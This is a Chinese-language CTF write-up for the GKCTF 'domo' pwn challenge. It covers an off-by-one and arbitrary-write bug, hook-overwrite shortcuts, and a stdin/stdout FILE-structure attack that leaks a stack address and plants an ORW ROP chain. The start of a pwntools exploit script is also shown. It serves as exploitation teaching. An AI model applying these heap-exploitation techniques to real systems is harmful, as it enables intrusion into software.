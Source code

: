 # GKCTF Writeup


分享一个比赛的两道题目



# domo

## 漏洞分析

程序漏洞十分明明显，有一个off by one和任意地址写，难点在于程序使用了seccomp开启了沙箱，同时会对malloc_hook和realloc_hook检测是否写入，如果写入了，就不能再进行菜单操作，也就不能用malloc去触发onegadget。

但是出题人使用seccomp不是在程序开头，而是在程序结束时，这就造成了几个非预期解。比如seccomp会调用calloc，所以可以写calloc_hook来触发onegadget或则利用scanf输入大量字节触发malloc，进而可以通过写__malloc_hook来获得shell。

如果出题人是将seccomp用在开头，那么就不会有这些非预期解了，就只能用预期解来做。由于seccomp限制了execve，所以我们只能用orw来做，但是如何用程序的漏洞来达到写程序的stack，构造ROP呢？这就是这道题有意思的地方。

思路是这样的：

+ 攻击stdout，来输出environ的内容，environ的值是一个栈的地址，这个栈地址是栈底信息的指针，调试一下可以看到，栈底保存了程序环境变量，程序名等等信息。==>泄漏栈地址
+ 攻击stdin，修改其缓冲区为main函数储存返回地址的栈地址。
+ 构造ROP链，修改栈中的数据，来获得flag

这里最有趣的一点就是攻击stdin，在之前通常都是攻击stdout来泄漏libc地址。

攻击stdin的方式就是将其的IO_Buf修改为栈地址，这样输入的数据就会先存放在栈地址中，进而可以构造ROP。

## EXP

````python
from pwn import *
from LibcSearcher import *
if args['REMOTE']:
	sh=remote('node3.buuoj.cn',29731)
else:
	sh=process('./domo')


if args['I386']:
	context.arch='i386'
else:
	context.arch='amd64'


if args['DEBUG']:
	context.log_level='debug'
libc=ELF('./libc.so.6')
def choice(elect):
	sh.recvuntil('>')
	sh.sendline(str(elect))

def add(size,content):
	choice(1)
	sh.recvuntil(':')
	sh.sendline(str(size))
	sh.recvuntil(':')
	sh.sendline(content)


def edit(addr,num):
	choice(4)
	sh.recvuntil(':')
````